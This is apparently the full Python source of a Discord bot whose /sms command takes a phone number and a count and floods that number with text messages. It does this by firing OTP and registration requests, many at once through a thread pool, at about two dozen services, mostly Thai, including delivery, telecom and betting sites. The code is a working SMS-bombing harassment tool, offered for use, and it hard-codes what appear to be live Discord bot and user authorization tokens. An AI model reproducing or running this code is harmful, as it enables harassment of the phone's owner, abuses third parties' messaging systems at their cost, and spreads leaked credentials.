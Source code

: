 import discord,time
import requests
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "OTUzMjM2ODk4NjU3MjEwMzc4.YjBpCg.gdeLaxfg_L4ofJeE_rIIHtAuM04"



prefix = "/"

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"
def cang01(phone):
    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})
def cang02(phone):
    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")
    
def cang03(phone):
    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": "dec"}})
   
   
def cang1(phone):
    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    
    
def cang2(phone):
    post("https://www.carsome.co.th/website/login/sendSMS",json={"username":phone,"optType":0})
    
def cang3(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"}) 


def cang4(phone):
    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": f"{phone[1:]}","password":"123456789Az"})
    
    
def cang5(phone):
    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": "+66"+phone,"password":"","client":"ecommerce"})
    
def cang6(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})

def cang7(phone):
    post("https://m.lucabet168.com/api/register-otp",json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})
    
def cang8(phone):
    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})
    
 
    
def cang9(phone):
    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    
def cang10(phone):
    post("https://ep789bet.net/auth/send_otp", data={"phone":f"{phone}"})
    
def cang11(phone):
    post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,
        "language": "th"},headers={"accept": "application/json, text/plain, /",
	    "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    
    
    
    
def cang12(phone):
	post("https://discord.com/api/v9/users/@me/phone",json={
  "phone": "+66"+phone,
  "change_phone_reason": "guild_phone_required"
},headers={"authorization":"OTA4MjA2NjE4NjE1OTA2Mzg1.Ycz2Hw.TdQLC2lIwn6UQDl1xBsyJGLnjOw"})


def cang13(phone):
	post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})


def cang13(phone):
	post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	

def cang14(phone):
	post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})
	
def cang15(phone):
	post("https://www.wongnai.com/_api/guest.json?_v=6.056&locale=th&_a=phoneLogIn",data={"phoneno":phone,

"retrycount":"0"

    },headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang16(phone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":phone,"password":"1111a1111A","name":phone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang17(phone):
    session = Session()
    searchItem = session.get("https://www.shopat24.com/register/").text
    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)
    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})
     
     
def cang18(phone):
    session = Session()
    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text
    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})
    
    

def sck(sphone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":sphone,"password":"1111a1111A","name":sphone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang19(phone):
		post("https://vaccine.trueid.net/vacc-verify/api/getotp",json={"msisdn":phone,"function":"enroll"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
    
def cang20(phone):
	post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone,
	})

	
def cang21(phone):
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    
def cang22(phone):
	requests.get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
	
def cang23(phone):
	 requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+phone+"&type=mobile")
	 
def cang24(phone):
	requests.get("https://findclone.ru/register?phone=+66"+phone)

    
    
 
    
def BBot(phone, amount):
    for i in range(amount):
       
        
        
        
        threading.submit(cang01,phone)
        threading.submit(cang02,phone)
        threading.submit(cang03,phone)
        threading.submit(cang1,phone)
        threading.submit(cang2,phone)
        threading.submit(cang3,phone)
        threading.submit(cang3,phone)
        threading.submit(cang4,phone)
        threading.submit(cang5,phone)
        threading.submit(cang6,phone)
        threading.submit(cang7,phone)
        threading.submit(cang8,phone)
        threading.submit(cang9,phone)
        threading.submit(cang10,phone)
        threading.submit(cang11,phone)
        threading.submit(cang12,phone)
        threading.submit(cang13,phone)
        threading.submit(cang14,phone)
        threading.submit(cang15,phone)
        threading.submit(cang16,phone)
        threading.submit(cang17,phone)
        threading.submit(cang18,phone)
        threading.submit(cang19,phone)
        threading.submit(cang20,phone)        
        threading.submit(cang21,phone)
        threading.submit(cang22,phone)
        threading.submit(cang23,phone)
        threading.submit(cang24,phone)
        
        
        
        
        


        
       
        
        
        
@bot.event
async def on_connect():
    print(f"กำลังล็อกอินบอท : {bot.user}")
    time.sleep(1.0)
    print("ล็อกอินสำเร็จ")
    


    


    
    
    
@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
    	
      embes = discord.Embed(title="Spam", description="Bot by : Broken",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      ima = "https://media.discordapp.net/attachments/952942645490114593/955836478943002634/received_2882622585369710.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
		
    
      BBot(phone,amount)
    else:
    	await ctx.channel.send("ยิงเยอะไปโกรธแล้วนะ🤧")
    


		
		
		
		
		


	
	
    
    
    
    
@bot.command()
async def help(ctx):
	emBed = discord.Embed(title="Bot BY:Broken",description="วิธิใช้",color=0xff4612)
	emBed.add_field(name="🤧",value="/sms [เบอร์] [จำนวน]")
	
	
	await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)

